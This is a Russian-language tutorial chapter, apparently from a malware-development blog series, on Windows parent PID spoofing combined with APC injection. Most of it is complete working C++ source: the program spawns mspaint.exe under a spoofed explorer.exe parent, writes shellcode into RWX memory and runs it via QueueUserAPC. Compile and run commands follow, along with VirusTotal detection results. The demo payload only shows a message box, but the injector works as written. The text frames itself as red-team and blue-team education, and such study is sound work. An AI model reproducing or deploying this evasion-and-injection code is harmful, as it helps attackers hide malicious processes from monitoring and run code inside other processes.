\newpage
\subsection{36. трюки разработки вредоносного ПО: подмена родительского PID. Простой пример на C++}    

﷽

{width="80%"}    

Эта статья является результатом моего собственного исследования интересного трюка: подмена идентификатора родительского процесса (Parent PID Spoofing).    

### подмена родительского PID

Мониторинг отношений между родительскими и дочерними процессами - это распространённый метод, используемый командами поиска угроз для выявления вредоносной активности. Красные команды (Red teams) используют подмену родительского PID как метод уклонения. Вызов API Windows `CreateProcess` поддерживает параметр, который позволяет пользователю указать родительский PID. Это означает, что вредоносный процесс может использовать другого родителя, отличного от того, который его создал.     

### практический пример

Рассмотрим практический пример. Прежде всего, допустим, у нас есть какой-то процесс, например `mspaint.exe`:    

{width="80%"}    

Как видно, PID - `3396`. Если мы посмотрим на его родительский процесс (PID: `2876`), мы увидим `explorer.exe`:    

{width="80%"}    

Также через Process Hacker можно увидеть, что текущая директория - `C:\Windows\System32\`:    

{width="80%"}    

Затем ход выполнения этого трюка выглядит следующим образом:

Я получил PID `explorer.exe`:    

```cpp
int pid = findMyProc(argv[1]);
if (pid) {
  printf("PID = %d\n", pid);
}

HANDLE ph = OpenProcess(PROCESS_ALL_ACCESS, false, (DWORD)pid);
```

Создаю процесс `mspaint.exe`:     

```cpp
CreateProcessA("C:\\Windows\\System32\\mspaint.exe", NULL, NULL, NULL, TRUE, 
CREATE_SUSPENDED | CREATE_NO_WINDOW | EXTENDED_STARTUPINFO_PRESENT, 
NULL, NULL, reinterpret_cast<LPSTARTUPINFOA>(&si), &pi);
LPVOID ba = (LPVOID)VirtualAllocEx(pi.hProcess, NULL, 0x1000, 
MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
```

Записываю полезную нагрузку `meow-meow` в память созданного процесса:      

```cpp
BOOL res = WriteProcessMemory(pi.hProcess, ba, (LPVOID)my_payload, sizeof(my_payload), nb);
```

Добавляю объект асинхронного вызова процедуры (APC) в очередь APC потока созданного процесса:     

```cpp
QueueUserAPC((PAPCFUNC)ba, pi.hThread, 0);
```

Возобновляю поток:    

```cpp
ResumeThread(pi.hThread);
CloseHandle(pi.hThread);
```

Таким образом, полный исходный код этого трюка выглядит следующим образом:     

```cpp
/*
hack.cpp
parent PID spoofing with APC
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/09/06/malware-tricks-23.html
*/
#include <windows.h>
#include <tlhelp32.h>
#include <iostream>

int findMyProc(const char *procname) {

  HANDLE hSnapshot;
  PROCESSENTRY32 pe;
  int pid = 0;
  BOOL hResult;

  // snapshot of all processes in the system
  hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
  if (INVALID_HANDLE_VALUE == hSnapshot) return 0;

  // initializing size: needed for using Process32First
  pe.dwSize = sizeof(PROCESSENTRY32);

  // info about first process encountered in a system snapshot
  hResult = Process32First(hSnapshot, &pe);

  // retrieve information about the processes
  // and exit if unsuccessful
  while (hResult) {
    // if we find the process: return process ID
    if (strcmp(procname, pe.szExeFile) == 0) {
      pid = pe.th32ProcessID;
      break;
    }
    hResult = Process32Next(hSnapshot, &pe);
  }

  // closes an open handle (CreateToolhelp32Snapshot)
  CloseHandle(hSnapshot);
  return pid;
}


int main(int argc, char* argv[]) {
  unsigned char my_payload[] =
  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

  STARTUPINFOEXA si;
  PROCESS_INFORMATION pi;
  SIZE_T st;
  int pid = findMyProc(argv[1]);
  if (pid) {
    printf("PID = %d\n", pid);
  }

  HANDLE ph = OpenProcess(PROCESS_ALL_ACCESS, false, (DWORD)pid);

  ZeroMemory(&si, sizeof(STARTUPINFOEXA));
  InitializeProcThreadAttributeList(NULL, 1, 0, &st);
  si.lpAttributeList = 
  (LPPROC_THREAD_ATTRIBUTE_LIST)HeapAlloc(GetProcessHeap(), 0, st);
  InitializeProcThreadAttributeList(si.lpAttributeList, 1, 0, &st);
  UpdateProcThreadAttribute(si.lpAttributeList, 0, 
  PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, &ph, sizeof(HANDLE), NULL, NULL);
  si.StartupInfo.cb = sizeof(STARTUPINFOEXA);

  CreateProcessA("C:\\Windows\\System32\\mspaint.exe", NULL, NULL, NULL, TRUE, 
  CREATE_SUSPENDED | CREATE_NO_WINDOW | EXTENDED_STARTUPINFO_PRESENT, NULL, 
  NULL, reinterpret_cast<LPSTARTUPINFOA>(&si), &pi);
  LPVOID ba = (LPVOID)VirtualAllocEx(pi.hProcess, NULL, 0x1000, MEM_RESERVE | 
  MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  SIZE_T *nb = 0;
  BOOL res = WriteProcessMemory(pi.hProcess, ba, (LPVOID)my_payload, 
  sizeof(my_payload), nb);

  QueueUserAPC((PAPCFUNC)ba, pi.hThread, 0);
  ResumeThread(pi.hThread);
  CloseHandle(pi.hThread);

  return 0;
}
```

Как видите, я повторно использовал свой код из [этого](https://cocomelonc.github.io/pentest/2021/09/29/findmyprocess.html) и [этого](https://cocomelonc.github.io/tutorial/2021/11/11/malware-injection-3.html) постов.    

> Здесь я немного задал процесс, который запускается, в жёстком коде, но вы можете изменить его так, чтобы он принимал параметры из аргументов командной строки.    

### демонстрация

Давайте посмотрим всё в действии. Компилируем наш "вредонос":    

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-mwindows -I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

{width="80%"}    

Затем запускаем его на машине жертвы:    

```powershell
.\hack.exe explorer.exe
```

{width="80%"}    

Запускаем Process Hacker, и, как видите, процесс `mspaint.exe` успешно создан (PID: `4720`):   

{width="80%"}    

И:    

{width="80%"}    

{width="80%"}    

Как можно заметить, родительский процесс - `2876`, что соответствует `explorer.exe`, но текущая директория - `Z:\2022-09-06-malware-tricks-23`!    

А что у нас в памяти процесса?    

{width="80%"}    

Так что всё работает идеально :)     

На самом деле, я вас немного обманул. В моём примере используется не просто подмена родительского процесса. Это комбинация подмены PPID и APC-инъекции. Потому что я, как и вы, продолжаю учиться и иногда нужно задавать себе вопросы и не бояться экспериментировать.    

Давайте загрузим `hack.exe` на VirusTotal:

{width="80%"}    

**Итак, 20 из 70 антивирусных движков определили наш файл как вредоносный.**    

[https://www.virustotal.com/gui/file/3ec9f1080253f07695f0958ae84e99ff065f052c409f0f7e3e1a79cd4385a9d5/detection](https://www.virustotal.com/gui/file/3ec9f1080253f07695f0958ae84e99ff065f052c409f0f7e3e1a79cd4385a9d5/detection)     

Эта техника используется в [Cobalt Strike](https://attack.mitre.org/software/S0154/) и [KONNI RAT](https://attack.mitre.org/software/S0356/). Например, Cobalt Strike может порождать процессы с альтернативными PPID.    

Изначально эта техника была представлена широкой аудитории информационной безопасности в 2009 году [Didier Stevens](https://twitter.com/DidierStevens).     

Надеюсь, этот пост повысит осведомлённость синих команд об этой интересной технике и добавит оружие в арсенал красных команд.      

[Didier Stevens: That Is Not My Child Process!](https://blog.didierstevens.com/2017/03/20/that-is-not-my-child-process/)    
[MITRE ATT&CK: Parent PID spoofing](https://attack.mitre.org/techniques/T1134/004/)     
[Cobalt Strike](https://attack.mitre.org/software/S0154/)    
[KONNI](https://attack.mitre.org/software/S0356/)    
[CreateProcessA](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessa)    
[Find process ID by name and inject to it](https://cocomelonc.github.io/pentest/2021/09/29/findmyprocess.html)     
[APC injection technique](https://cocomelonc.github.io/tutorial/2021/11/11/malware-injection-3.html)      
[исходный код на github](https://github.com/cocomelonc/meow/tree/master/2022-09-06-malware-tricks-23)    
